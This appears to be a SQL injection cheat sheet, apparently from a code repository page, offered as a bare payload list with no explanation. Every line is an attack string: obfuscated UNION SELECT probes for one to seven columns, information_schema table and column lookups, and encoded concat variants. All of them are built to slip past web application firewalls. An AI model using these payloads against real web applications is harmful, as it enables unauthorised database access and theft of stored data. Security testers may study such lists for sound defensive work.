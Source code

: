 ```
 /*!%55nion*/%20/*!%53elect*/%201,2
 /*!%55nion*/%20/*!%53elect*/%201,2,3
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5,6
 /*!%55nion*/%20/*!%53elect*/%201,2,3,4,5,6,7
 
 /*!12345%55nion*/ /*!12345%53elect*/ 1
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2
 /*!1234%55nion*/ /*!12345%53elect*/ 1,2,3
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5,6
 /*!12345%55nion*/ /*!12345%53elect*/ 1,2,3,4,5,6,7
 
 /*!12345%55nion*/(/*!12345%53elect*/ 1)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5,6)
 /*!12345%55nion*/(/*!12345%53elect*/ 1,2,3,4,5,6,7)

```



### Information_schema.tables 

```
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/=schEMA()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/ like schEMA()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/=database()-- -
/*!froM*/ /*!InfORmaTion_scHema*/.tAblES /*!WhERe*/ /*!TaBle_ScHEmA*/ like database()-- -
/*!FrOm*/+%69nformation_schema./**/columns+/*!50000Where*/+/*!%54able_name*/=hex table
/*!FrOm*/+information_schema./**/columns+/*!12345Where*/+/*!%54able_name*/ like hex table
```

### Concat

```
CoNcAt()
concat() 
CON%08CAT()
CoNcAt()
%0AcOnCat()
/**//*!12345cOnCat*/
/*!50000cOnCat*/(/*!*/)
unhex(hex(concat(table_name)))
unhex(hex(/*!12345concat*/(table_name)))
unhex(hex(/*!50000concat*/(table_name)))
```
